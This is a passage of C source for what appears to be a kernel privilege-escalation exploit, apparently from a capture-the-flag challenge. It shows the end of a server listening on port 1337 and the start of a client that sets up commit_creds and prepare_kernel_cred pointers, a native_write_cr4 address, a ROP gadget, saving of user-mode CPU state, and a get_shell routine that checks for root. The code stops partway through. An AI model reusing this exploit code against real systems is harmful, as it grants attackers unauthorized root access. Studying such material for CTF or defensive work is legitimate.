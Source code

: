 ```cpp


    servaddr.sin_port = htons(1337);
    if (bind(sock, (struct sockaddr *)&servaddr, sizeof(servaddr)) < 0){
        ERR_EXIT("bind error");
    }

    echo_ser(sock);

    return 0;
}

```

Client.c
```cpp
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <strings.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <errno.h>
#include <fcntl.h>

struct Packet{
    char header[4];
    unsigned short size;
    char buffer[0x10000];
};

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef int __attribute__((regparm(3))) (*_msleep)(unsigned long second);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

char buf[0x30000];

_msleep msleep;
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
unsigned long native_write_cr4;
unsigned long poprdi;
unsigned long user_cs, user_ss, user_rflags;

static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags)
        :
        : "memory");
}


void get_shell()
{
    if(getuid()!=0){
```